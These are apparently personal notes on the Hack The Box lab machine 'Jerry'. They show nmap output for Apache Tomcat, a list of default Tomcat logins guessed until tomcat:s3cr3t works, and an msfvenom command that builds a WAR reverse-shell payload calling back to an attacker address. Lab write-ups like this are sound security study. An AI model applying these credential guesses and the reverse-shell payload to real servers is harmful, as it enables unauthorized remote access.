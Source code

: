 # Enumeration 

## open ports

```
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/7.0.88

```
### Port 8080
![[Pasted image 20230129043550.png]]
trying default tomcat creds

admin:admin
tomcat:tomcat
admin`:<NOTHING>`
admin:s3cr3t
tomcat:s3cr3t
admin:tomcat

and tomcat:s3cr3t is valid
now we can upload .war file and get rev shell
`msfvenom -p java/shell_reverse_tcp LHOST=10.10.16.5 LPORT=9001 -f war -o shell.war`
![[Pasted image 20230129045944.png]]
![[Pasted image 20230129050631.png]]
![[Pasted image 20230129050647.png]]

# Loot

tomcat manager creds:
	username: tomcat
	password: s3cr3t

---
Tags: #ctf #htb #tomcat 
Resources: [Jerry](https://app.hackthebox.com/machines/144)